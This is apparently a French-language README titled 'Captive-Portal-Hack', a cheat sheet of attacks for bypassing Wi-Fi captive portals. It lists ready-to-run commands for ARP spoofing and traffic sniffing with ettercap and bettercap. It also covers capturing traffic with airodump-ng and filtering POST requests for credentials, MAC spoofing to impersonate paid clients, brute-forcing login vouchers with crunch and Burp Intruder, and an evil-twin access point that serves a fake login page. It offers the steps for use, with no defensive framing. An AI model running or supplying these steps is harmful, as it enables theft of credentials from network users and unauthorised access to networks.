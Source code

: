 # Captive-Portal-Hack
Captive portal hacking

**-->Arp Spoofing / MiTm**  

Outils: ettercap, bettercap, air... suite, wireshark ...  

Commandes utiles et steps:  

**Ettercap**  
-$sudo ettercap -Tq -M arp:remote -i wlan0 ///  

**airmon-ng, airodump-ng, wireshark**  
-$sudo airmon-ng check kill  
-$sudo airmon-ng start wlan0  
-$sudo airodump-ng wlan0  
-$sudo airodump-ng --bssid <BSSID> -c <CH> -w nomFichierCapture wlan0  
Ensuite ouvrir le fichier de capture .cap dans wireshark et filtrer les traffics post (http.request.method==POST).  

**Bettercap**  
-$sudo bettercap -iface wlan0   
  Dans la console bettercap:  
    >net.probe on  
    >net.recon on  
    >arp.spoof on   
    >net.sniff on  

**-->Mac Spoofing**  
Outils: aircrack-ng suite, ip ...  

Commandes utiles:  

**aircrack suite, ifconfig, macchanger**  
-$sudo airmon-ng start wlan0  
-$sudo airodump-ng wlan0mon   
-$sudo ifconfig wlan0 down  
-$sudo macchanger -m AA:BB:CC:DD:EE:FF wlan0  
-$sudo iwconfig wlan0 mode managed  
-$sudo ifconfig wlan0 up  
-$sudo systemctl restart NetworkManager  


**--> Bruteforce des identifiants**  
Outils : crunch, burpsuite  

Quelques prérequis:  
--Observer le format des mots de passe/vouchers (longueur, caractères) pour créer un dictionnaire ciblé.  
--Le MAC spoofing peut servir à identifier un nom d’utilisateur via la page /status.  

-$crunch <minLength> <maxLength> <charset> > dictionnaire.txt  

**Steps**  
- Ouvrir Burp Suite et aller dans l’onglet Proxy.  
- Configurer le navigateur pour passer par le proxy de Burp ou utiliser le navigateur intégré.  
- Charger la page de login et soumettre des identifiants incorrects.  
- Intercepter la requête et l’envoyer à Intruder.  
- Sélectionner les champs à brute-forcer.  
- Choisir Battering Ram (username = password) ou Cluster Bomb (username ≠ password).  
- Charger le dictionnaire.  
- Dans Resource Pool, définir delay between requests = 1000 ms et max concurrent requests = 1.  
- Lancer l’attaque et observer une réponse de longueur très différente (ça aura un code 302 redirect ou un 404 not found) .


**--> Faux points d'accès**  
Outils: fluxion, airbase-ng  
Commandes utiles:  
-$sudo airmon-ng start wlan0  
-$sudo airbase-ng -e "EvilTwinName" -c 6 wlan0  

Servir une fausse page de connexion et rediriger tout le traffic http vers elle



